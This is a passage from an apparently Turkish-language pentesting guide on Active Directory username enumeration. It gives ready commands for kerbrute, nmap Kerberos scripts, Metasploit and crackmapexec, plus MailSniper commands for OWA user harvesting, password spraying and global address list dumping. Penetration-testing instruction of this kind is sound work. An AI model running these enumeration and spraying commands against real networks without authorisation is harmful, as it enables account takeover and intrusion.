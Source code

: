 * **Anonim SMB/LDAP numaralandırma:** [**pentesting SMB**](../../network-services-pentesting/pentesting-smb/) ve [**pentesting LDAP**](../../network-services-pentesting/pentesting-ldap.md) sayfalarını kontrol edin.
* **Kerbrute numaralandırma**: Bir **geçersiz kullanıcı adı istendiğinde** sunucu, **Kerberos hata** kodu _KRB5KDC\_ERR\_C\_PRINCIPAL\_UNKNOWN_ kullanarak yanıt verecektir, böylece kullanıcı adının geçersiz olduğunu belirleyebiliriz. **Geçerli kullanıcı adları**, ya **AS-REP içinde TGT** yanıtını ya da _KRB5KDC\_ERR\_PREAUTH\_REQUIRED_ hatasını alacaktır, bu da kullanıcının ön kimlik doğrulamasını gerçekleştirmesi gerektiğini gösterir.
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
```
* **OWA (Outlook Web Access) Sunucusu**

Eğer ağda bu sunuculardan birini bulursanız, ayrıca buna karşı **kullanıcı numaralandırması yapabilirsiniz**. Örneğin, [**MailSniper**](https://github.com/dafthack/MailSniper) aracını kullanabilirsiniz:
```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```
{% hint style="warning" %}
[**Bu github deposunda**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) ve bu ([**istatistiksel-olası-kullanıcı-adları**](https://github.com/insidetrust/statistically-likely-usernames)) listelerini kullanıcı adları bulabilirsiniz.

Ancak, bu adımdan önce gerçekleştirmeniz gereken keşif adımından **şirkette çalışan kişilerin adını** bilmelisiniz. Ad ve soyadı ile [**namemash.py**](https://gist.github.com/superkojiman/11076951) betiğini kullanarak potansiyel geçerli kullanıcı adları oluşturabilirsiniz.
{% endhint %}

### Bir veya birkaç kullanıcı adını bilmek

Tamam, zaten geçerli bir kullanıcı adınız olduğunu biliyorsunuz ama şifreleriniz yok... O zaman şunları deneyin:
